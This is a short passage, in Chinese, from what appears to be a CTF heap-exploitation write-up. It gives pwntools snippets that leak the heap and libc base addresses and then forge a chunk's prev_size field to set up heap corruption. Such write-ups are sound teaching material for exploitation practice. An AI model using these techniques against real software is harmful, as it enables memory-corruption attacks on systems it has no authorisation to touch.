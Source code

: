 [![](assets/1701612371-6d7aa348536de7297a006ac43f4469a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151724-536ffbd2-17df-1.png)  
想接收这个数据，可以用  
1.p.recvuntil('\\n')\[:-1\].ljust(8,'\\x00')  
接收到 '\\n' , 但是不算上 '\\n'  
2.k&0x0000000000ffffff

```plain
ru('INDEX: 1\n')
ru('# CONTENT: ')
k=u64(r(8))
heap_addr=k&0x0000000000ffffff-0x1f0
#heap_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
leak('heap_addr',heap_addr)

ru('INDEX: 3\n')
ru('# CONTENT: ')
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak('libc_base',libc_base)
```

```plain
chunk_list_addr=0x602040
chunk2_addr=heap_addr+0xf0
offset=chunk2_addr-chunk_list_addr
leak('chunk_list_addr >> ',chunk_list_addr)
leak('chunk2_addr >> ',chunk2_addr)
leak('offset >> ',offset)
```

[![](assets/1701612371-c9bfa73494660c77df6ea48dc277cea0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151843-831a9d1a-17df-1.png)

```plain
add(0xe8, "g"*(0xe8-0x8) + p64(offset))
```

改一下 chunk2 的pre\_size
